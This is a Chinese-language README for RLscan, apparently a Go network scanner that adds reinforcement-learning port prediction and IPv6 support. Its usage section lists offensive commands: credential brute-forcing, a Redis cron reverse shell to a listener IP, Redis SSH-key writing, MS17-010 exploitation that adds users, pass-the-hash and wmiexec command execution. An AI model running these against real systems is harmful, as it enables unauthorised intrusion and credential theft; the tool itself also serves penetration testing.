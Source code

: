 # RLscan

该项目仅用于概念验证。

[English](README_EN.md)

#  AI

在原先的基础上加入了自适应学习和强化学习，支持IPv6。

+ IPv6 扫描

在IPv6扫描之前确定自己的网络支持IPv6

多个目标
```
RLscan.exe -hf "ip.txt"
```
单个目标
```
RLscan.exe -h "2408:8720:806:300:70::88"
```

##  🤖 自适应学习

在3秒内完成对整机65536个端口的扫描。

+ 异步扫描计算有效利用网络宽带和CPU资源;
+ 流量控制算法+异步计算svn == 高扫描速率 + 低资源占用;
+ 通过计算ulimit (进程资源使用限制) 和RTT (往返时延) 自适应调整请求接口数和数据包发送速率;
+ 他会合理的拉满宽带和内存，但不会引发硬件问题;

```
RLscan.exe -h "127.0.0.1" -AL 1
```

##  🤖 强化学习

> 所有实现均局限在10000之前，限制性能消耗；

### 🐳 Q-learning（Demo）

在全端口扫描时，进一步提高准确率和尽量减少需要扫描的端口。

+ 纯机器学习，实际效果基于网络性能;
+ Q-learning算法纯 GO 实现;
+ 样本10000的情况下，端口覆盖率87%;

```
RLscan.exe -h "127.0.0.1" -RL 1
```

![效果图](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdown%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20231225123928.png)

###  DQN

待实现。

###  PPO

+ 对于基于策略的实现，通过端口之间打开的关联性矩阵进行抉择最优策略；
+ 关联性计算具体参考[贝叶斯公式](https://baike.baidu.com/item/%E8%B4%9D%E5%8F%B6%E6%96%AF%E5%85%AC%E5%BC%8F/9683982)

待实现。

# 使用说明

<details> <summary>使用说明</summary>

简单用法
``` 
RLscan.exe -h 192.168.1.1/24  (默认使用全部模块)
RLscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
RLscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
RLscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
RLscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
RLscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
RLscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
RLscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
RLscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
RLscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
RLscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
RLscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
RLscan.exe -hf ip.txt  (以文件导入)
RLscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
RLscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
RLscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
RLscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
RLscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
RLscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
RLscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```
编译命令
```
go build -ldflags="-s -w " -trimpath main.go
upx -9 RLscan.exe (可选,压缩体积)
```
arch用户安装  
`yay -S RLscan-git  或者 paru -S RLscan-git`

完整参数
```
  -c string
        ssh命令执行
  -cookie string
        设置cookie
  -debug int
        多久没响应,就打印当前进度(default 60)
  -domain string
        smb爆破模块时,设置域名
  -h string
        目标ip: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        读取文件中的目标
  -hn string
        扫描时,要跳过的ip: -hn 192.168.1.1/24
  -m string
        设置扫描模式: -m ssh (default "all")
  -no
        扫描结果不保存到文件中
  -nobr
        跳过sql、ftp、ssh等的密码爆破
  -nopoc
        跳过web poc扫描
  -np
        跳过存活探测
  -num int
        web poc 发包速率  (default 20)
  -o string
        扫描结果保存到哪 (default "result.txt")
  -p string
        设置扫描的端口: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,139,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017")
  -pa string
        新增需要扫描的端口,-pa 3389 (会在原有端口列表基础上,新增该端口)
  -path string
        fcgi、smb romote file path
  -ping
        使用ping代替icmp进行存活探测
  -pn string
        扫描时要跳过的端口,as: -pn 445
  -pocname string
        指定web poc的模糊名字, -pocname weblogic
  -proxy string
        设置代理, -proxy http://127.0.0.1:8080
  -user string
        指定爆破时的用户名
  -userf string
        指定爆破时的用户名文件
  -pwd string
        指定爆破时的密码
  -pwdf string
        指定爆破时的密码文件
  -rf string
        指定redis写公钥用模块的文件 (as: -rf id_rsa.pub)
  -rs string
        redis计划任务反弹shell的ip端口 (as: -rs 192.168.1.1:6666)
  -silent
        静默扫描,适合cs扫描时不回显
  -sshkey string
        ssh连接时,指定ssh私钥
  -t int
        扫描线程 (default 600)
  -time int
        端口扫描超时时间 (default 3)
  -u string
        指定Url扫描
  -uf string
        指定Url文件扫描
  -wt int
        web访问超时时间 (default 5)
  -pocpath string
        指定poc路径
  -usera string
        在原有用户字典基础上,新增新用户
  -pwda string
        在原有密码字典基础上,增加新密码
  -socks5
        指定socks5代理 (as: -socks5  socks5://127.0.0.1:1080)
  -sc 
        指定ms17010利用模块shellcode,内置添加用户等功能 (as: -sc add)
```

</details>

# 参考链接

[RustScan](https://github.com/RustScan/RustScan);

[masscan](https://github.com/robertdavidgraham/masscan)

[Which Doors Are Open: Reinforcement Learning-based Internet-wide Port Scanning](https://scholar.google.com/citations?view_op=view_citation&hl=en&user=dpcpsXQAAAAJ&citation_for_view=dpcpsXQAAAAJ:0EnyYjriUFMC);

[Landing Reinforcement Learning onto Smart Scanning of The Internet of Things](https://ieeexplore.ieee.org/document/9796737);

[近端策略优化算法](https://arxiv.org/abs/1707.06347)

[url-docen]: README
